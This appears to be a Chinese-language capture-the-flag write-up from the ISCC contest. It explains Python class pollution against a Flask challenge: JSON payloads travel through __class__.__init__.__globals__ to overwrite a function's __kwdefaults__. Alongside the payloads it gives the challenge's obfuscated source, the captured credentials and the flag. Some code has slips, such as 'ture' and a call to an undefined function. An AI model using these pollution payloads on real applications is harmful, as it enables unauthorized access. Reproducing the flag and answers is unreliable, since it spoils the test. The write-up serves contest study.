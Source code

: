 考察原型链污染，构造payload

```
{"__class__": {"__init__": {"__globals__": {"W9hT7c2fL0": {"__kwdefaults__": {"I3q0Jk8sX7" : true, "M8f6Uv3zG4" : false, "S1t5Lm9cE2" : ture}} }}}}
```

获得账号密码

```
F6vN+1bY9wC!Q2*aT-9e5KcU
4gD7X(SOM#pR8*rJ3+Wf6iGt
```

进入下一题，同理

```python
 def kzmt0a(W1pS7h2eYq):
                    F4yU7rA2sW = (W1pS7h2eYq + "abcdefg").replace("a", "z")
                    return F4yU7rA2sW

                def kzrntoa(M2dH8iY0fR):
                    E1xK9uS4jC = hashlib.md5(M2dH8iY0fR.encode('utf-8')).hexdigest()
                    return E1xK9uS4jC

                def kzrnt0a(T3aF5cR0eY, * , fG2Wt8vDm6 = 'J8rM1tZ2sP', Z4bP9x1cTi = False):
                    if Z4bP9x1cTi:
                        if fG2Wt8vDm6 != T3aF5cR0eY:
                            return '不太对吧！'
                        else:
                            return Q9eX3jA5nL
                    else:
                        return '不太对吧！'
                @app.route('/j7K0Ov5dLc',methods=['POST', 'GET'])
                def K1tH0fY7rM():
                    W5aF6cR9eT = "try"
                    if request.data:
                        kzmtoa(json.loads(request.data), J5cMf90xQN)
                    return kzrnt0a(kzrntoa(kzmt0a(W5aF6cR9eT)))
```

按照函数逻辑，构建字符串`tryabcdefg`，替换字符变为`tryzbcdefg`，MD5编码`2D692448124C16E4E4AFDD7FAEF34242`

构造payload

```
{"__class__": {"__init__": {"__globals__": {"kzrnt0a": {"__kwdefaults__": {"fG2Wt8vDm6": "2d692448124c16e4e4afdd7faef34242", "Z4bP9x1cTi": true}}}}}}
```

获得flag

```
ISCC{TnxGj)9UfN=9*myGUp*t}
```

### 开门大吉

